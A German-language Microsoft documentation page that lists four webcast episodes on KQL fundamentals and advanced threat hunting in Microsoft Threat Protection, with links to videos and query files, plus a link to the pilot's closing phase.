| **Titel** | **Beschreibung** | **MP4 herunterladen** | **In YouTube ansehen** | **Zu verwendende CSL-Datei** |
|:-----|:-----|:-----|:-----|:-----|
| Episode 1: KQL-Grundlagen | Wir behandeln die Grundlagen der erweiterten Jagd Funktionen in Microsoft Threat Protection. Erfahren Sie mehr über verfügbare erweiterte Jagd Daten und grundlegende KQL-Syntax und Operatoren. | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [Episode 1: CSL-Datei in git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| Episode 2: Joins | Wir werden weiterhin über Daten in der erweiterten Suche und darüber, wie Sie Tabellen miteinander verknüpfen, vertraut gemacht. Erfahren Sie mehr über inner-, Outer-, Unique-und semi-Joins und die Nuancen der standardmäßigen Kusto innerunique Join. | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [Episode 2: CSL-Datei in git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| Episode 3: zusammenfassen, pivotieren und Visualisieren von Daten|Da wir nun Daten filtern, manipulieren und an diesen teilnehmen können, ist es an der Zeit, mit der Zusammenfassung, Quantifizierung, Pivotierung und Visualisierung zu beginnen. In dieser Episode befassen wir uns mit dem Zusammenfassungs Operator und einigen Berechnungen, die Sie ausführen können, wenn Sie in zusätzliche Tabellen im Advanced Hunting-Schema eintauchen. Wir verwandeln unsere Datasets in Diagramme, die zur Verbesserung der Analyse beitragen können. | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [Episode 3: CSL-Datei in git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| Episode 4: Let es Hunt! Anwenden von KQL auf die Vorfall Verfolgung|Zeit, um einige Angreifer Aktivitäten zu verfolgen! In dieser Episode verwenden wir unser verbessertes Verständnis von KQL und erweiterter Suche in Microsoft Threat Protection, um einen Angriff nachzuverfolgen. Erfahren Sie mehr über die Tipps und Tricks, die in dem Feld verwendet werden, um Angreifer Aktivitäten nachzuverfolgen, darunter das ABC von Cyber und wie diese auf die Vorfall Antwort angewendet werden. | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [Episode 4: CSL-Datei in git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>Nächster Schritt
| <br>[Abschluss-und Zusammenfassungs Phase](mtp-pilot-close.md) | Analysieren Sie Ihr Microsoft Threat Protection-Pilot Ergebnis, stellen Sie Sie Ihren Beteiligten zur Verfügung, und führen Sie den nächsten Schritt aus.
|:-----|:-----|

